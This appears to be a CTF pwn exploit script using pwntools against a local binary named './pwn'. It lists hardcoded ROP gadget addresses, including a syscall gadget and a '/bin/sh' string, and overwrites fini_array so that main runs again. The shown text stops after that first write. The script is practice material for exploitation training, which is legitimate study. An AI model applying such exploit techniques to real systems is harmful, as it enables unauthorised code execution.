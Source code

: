 ### exp

```plain
#coding:utf-8
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

syscall = 0x0402514
rax = 0x0448fcc
rdx = 0x0448415
rsi = 0x0406f80
rdi = 0x0401746
bin_sh = 0x0492895

fini_array = 0x04B80B0
main_addr  = 0x0401C1D
libc_csu_fini = 0x0402CB0
leave_ret = 0x0401CF3

esp = 0x04B80C0
ret = 0x0401016

def duan():
    gdb.attach(p)
    pause()

def write(addr,data):
    p.sendafter('addr:',p64(addr))
    p.sendafter('data:',data)


#使程序循环跑起来       fini_array[0]   fini_array[1]
write(fini_array,p64(libc_csu_fini)+p64(main_addr))
```
